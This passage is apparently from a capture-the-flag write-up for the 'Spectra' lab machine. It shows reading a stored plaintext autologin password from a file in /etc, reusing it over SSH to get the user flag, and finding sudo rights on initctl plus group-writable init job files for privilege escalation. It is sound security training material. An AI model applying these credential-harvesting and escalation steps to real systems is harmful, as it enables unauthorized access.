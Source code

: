 Looking around there is a strange non default folder with an unusual file in `/etc`. Reading it, it seems to be a password and we only have 2 other users root included.

```php
nginx@spectra /usr/local/share/nginx/html/main/wp-content/themes/twentyseventeen $ cat /etc/autologin/passwd 
SummerHereWeCome!!
```

Trying the password for katie over ssh we are successfull and can grab the user flag. 

```php
$ ssh katie@spectra.htb
The authenticity of host 'spectra.htb (10.129.93.40)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'spectra.htb,10.129.93.40' (RSA) to the list of known hosts.
Password: 
katie@spectra ~ $ ls
log  user.txt
katie@spectra ~ $ wc -c user.txt 
33 user.txt
katie@spectra ~ $
```

# Root

## Initctl

Checking sudo permissions for katie we are able to run `/sbin/initctl` as root on the machine. This means we are able to start and stop jobs in the `/etc/init` directory.

```php
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

Checking the directory we see that most files aren't writeable by us, but 11 odd looking test files are owned by the developers group which gives us write-access since we are in the same group.

```php
katie@spectra ~ $ ls -la /etc/init
total 768
drwxr-xr-x  2 root root       12288 Feb  3 16:46 .
drwxr-xr-x 63 root root        4096 Feb 11 23:12 ..
-rw-r--r--  1 root root         358 Dec 22  2020 activate_date.conf
...[snip]...
-rw-rw----  1 root developers   478 Jun 29  2020 test.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test9.conf 
...[snip]...
```
